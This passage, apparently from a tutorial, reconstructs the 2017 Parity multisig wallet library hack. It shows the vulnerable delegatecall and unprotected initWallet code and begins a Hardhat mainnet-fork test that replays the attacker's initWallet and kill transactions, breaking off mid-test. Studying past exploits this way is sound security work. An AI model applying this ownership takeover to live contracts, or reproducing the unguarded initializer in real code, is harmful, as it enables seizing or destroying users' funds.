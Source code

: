 ```solidity
    if (msg.value > 0)
      Deposit(msg.sender, msg.value);
    else if (msg.data.length > 0)
      _walletLibrary.delegatecall(msg.data);
  }

  // ... other functions

  // FIELDS
  address constant _walletLibrary = 0x863df6bfa4469f3ead0be8f9f2aae51c91a907b4;

  // ... other fields
}
```

We can see that the library address is hardcoded to `0x863df6bfa4469f3ead0be8f9f2aae51c91a907b4`. The wallet's constructor delegatecalls to `_walletLibrary.initWallet`. _Using_ the wallet works by calling a function on it and having the fallback function forward the data to the library using `_walletLibrary.delegatecall(msg.data);`.

The vulnerability was that one could call `initWallet` on the wallet **library** itself and become the owner (as long as it has never been called before):

```solidity
contract WalletLibrary is WalletEvents {
  modifier only_uninitialized { if (m_numOwners > 0) throw; _; }

  function initWallet(address[] _owners, uint _required, uint _daylimit) only_uninitialized {
    initDaylimit(_daylimit);
    initMultiowned(_owners, _required);
  }

  function kill(address _to) onlymanyowners(sha3(msg.data)) external {
    suicide(_to);
  }

  // ... many other functions
}
```

In order to replay the hack, we need to imitate the two transactions from the GitHub issue ([initWallet](https://etherscan.io/tx/0x05f71e1b2cb4f03e547739db15d080fd30c989eda04d37ce6264c5686e0722c9), [kill](https://etherscan.io/tx/0x47f7cff7a5e671884629c93b368cb18f58a993f4b19c2a53a8662e3f1482f690)).
Let's write a test forking mainnet at block number `4501735`, one block before the first malicious transaction.

```typescript
import { expect } from "chai";
import { Contract, ContractTransaction, Signer } from "ethers";
import hre, { ethers } from "hardhat";
import { forkFrom } from "./utils/fork";

let attacker: Signer;
let victim: Signer;
let wallet: Contract;
let walletLib: Contract;

beforeEach(async () => {
  await forkFrom(4501735);

  [attacker] = await ethers.getSigners();

  // impersonate an owner of the wallet so we can call functions on it
  const WALLET_OWNER_ADDR = `0x003aAF73BF6A398cd40F72a122203C37A4128207`;
  await hre.network.provider.request({
    method: "hardhat_impersonateAccount",
```